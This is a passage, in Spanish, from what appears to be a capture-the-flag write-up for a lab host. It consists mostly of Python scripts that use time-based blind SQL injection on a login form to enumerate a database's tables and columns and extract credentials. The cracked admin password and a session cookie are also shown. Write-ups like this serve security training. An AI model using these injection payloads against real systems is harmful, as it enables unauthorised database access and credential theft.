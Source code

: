 ```python
			req = requests.post(login_url, data=data, headers = headers, verify=False)
			final = time.time()
			if final - inicio > 2:
				resultado += letra
				print(resultado)
				break
	resultado += ", "
```
Nombre de tabla **users**  
## Averiguar el nombre de las columnas de 'admin.users':    

```python
caracteres = string.ascii_lowercase + "_"
login_url = "https://admin-portal.europacorp.htb/login.php"
headers = {'PHPSESSID': 'vfhb3ig3s0n01o9mp2arg735k0'}
resultado = ""
for i in range(10):
	for pos in range(20):
		for letra in caracteres:
			sqli = "' and if(substr((select column_name from information_schema.columns where table_schema='admin' and table_name='users' limit " + str(i) + ",1)," + str(pos) + ",1)='" + letra + "',sleep(2),1)-- -"
			data = { "email": "admin@europacorp.htb" + sqli, "password":"test"}
			inicio = time.time()
			req = requests.post(login_url, data=data, headers = headers, verify=False)
			final = time.time()
			if final - inicio > 2: 
				resultado += letra
				print(resultado)
				break
	resultado += ", "
```
Columnas -> **id**, **username**, **password** y **active**  

## Conseguir creds

```python
caracteres = string.ascii_lowercase + "_" + string.digits + string.punctuation
login_url = "https://admin-portal.europacorp.htb/login.php"
headers = {'PHPSESSID': 'vfhb3ig3s0n01o9mp2arg735k0'}
print("Credenciales: ")
print("--------------------------------------")
resultado = ""
for pos in range(30):
	for letra in caracteres:
		sqli = "' and if(substr((select group_concat(username,0x3a,password) from users)," + str(pos) + ",1)='" + letra + "',sleep(2),1)-- -"
		data = { "email": "admin@europacorp.htb" + sqli, "password":"test"}
		inicio = time.time()
		req = requests.post(login_url, data=data, headers = headers, verify=False)
		final = time.time()
		if final - inicio > 2:
			resultado += letra
			print(resultado)
			break
```
Obtenemos **administrator:2b6d315337f18617ba18922c0b9597ff** que se decodifica en **SuperSecretPassword!**  
Consigo la ```PHPSESSID:vfhb3ig3s0n01o9mp2arg735k0```  
